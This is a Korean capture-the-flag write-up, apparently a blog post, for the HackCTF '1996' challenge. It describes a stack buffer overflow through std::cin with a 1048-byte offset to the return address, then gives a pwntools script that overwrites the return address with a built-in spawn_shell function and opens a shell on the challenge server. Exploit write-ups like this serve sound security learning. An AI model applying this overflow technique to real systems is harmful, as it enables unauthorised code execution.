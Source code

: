 ```yaml
---
layout: post
title:  "HacCTF 1996 write-up"
date:   2020-01-11 19:45:55
image:  hackctf_1996.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] 1996

Date: Jan 11, 2020
Tags: report

### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled.png)

NX 비트가 걸려있다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%201.png)

프로그램을 실행하면 다음과 같이 나온다. 어떠한 환경 변수를 읽고 싶은지 묻고 입력을 하면 입력한 값을 출력해주고 끝나게 된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%202.png)

코드를 보면 C++ 코드로 구성된것을 알 수 있다.

코드만 보면 v3을 v4에 넣고 v7, v8 이걸 v9에 넣고,,, 복잡하다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%203.png)

그리고  shell을 실행시키는 함수가 내장되어 있으므로 이를 이용해서 푸는 문제인 것 같다

### 2. 접근방법

복잡할 것 같지만 다 훼이크이고 std cin을 이용해 name 변수를 통한 bof로 문제를 풀면 끝날 것 같다

name 부터 ret 까지 1048 크기이니 1048+ spawn_shell 주소 이렇게 주면 된다

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3013)
    
    p.recvuntil("Which environment variable do you want to read?")
    
    payload = "A"*1048
    payload += p64(0x0000000000400897)
    
    p.sendline(payload)
    p.interactive()

### 4. 몰랐던 개념

쫄지말자